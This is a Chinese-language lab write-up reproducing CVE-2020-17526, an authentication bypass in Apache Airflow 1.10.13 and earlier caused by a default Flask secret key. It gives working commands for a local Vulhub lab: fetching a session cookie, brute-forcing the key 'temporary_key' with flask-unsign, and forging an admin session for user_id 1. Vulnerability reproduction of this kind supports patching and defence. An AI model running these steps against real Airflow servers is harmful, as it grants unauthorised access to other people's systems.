




Apache Airflow 默认密钥导致的权限绕过 CVE-2020-17526¶
漏洞描述¶
Apache Airflow是一款开源的，分布式任务调度框架。默认情况下，Apache Airflow无需用户认证，但管理员也可以通过指定webserver.authenticate=True来开启认证。
在其1.10.13版本及以前，即使开启了认证，攻击者也可以通过一个默认密钥来绕过登录，伪造任意用户。
参考链接：
- https://lists.apache.org/thread/rxn1y1f9fco3w983vk80ps6l32rzm6t0
- https://kloudle.com/academy/authentication-bypass-in-apache-airflow-cve-2020-17526-and-aws-cloud-platform-compromise
环境搭建¶
Vulhub执行如下命令启动一个Apache Airflow 1.10.10：
#初始化数据库
docker-compose run airflow-init
#启动服务
docker-compose up -d
服务器启动后，访问http://your-ip:8080/admin/airflow/login即可查看到登录页面。
漏洞复现¶
首先，我们访问登录页面，服务器会返回一个签名后的Cookie：
curl -v http://localhost:8080/admin/airflow/login

然后，使用flask-unsign这个工具来爆破签名时使用的SECRET_KEY：
# 安装flask-unsign
pip install flask-unsign[wordlist]
# 开始爆破
flask-unsign -u -c [session from Cookie]

Bingo，成功爆破出Key是temporary_key。使用这个key生成一个新的session，其中伪造user_id为1：
flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}"

新生成的session为：
eyJfZnJlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlLCJ1c2VyX2lkIjoiMSJ9.YkJ2WQ.sUbyyQy70a2A6FPd6fO6UVAyQ-U
在浏览器中使用这个新生成的session，可见已成功登录：

可以使用Chrome插件EditThisCookie对Cookie进行修改。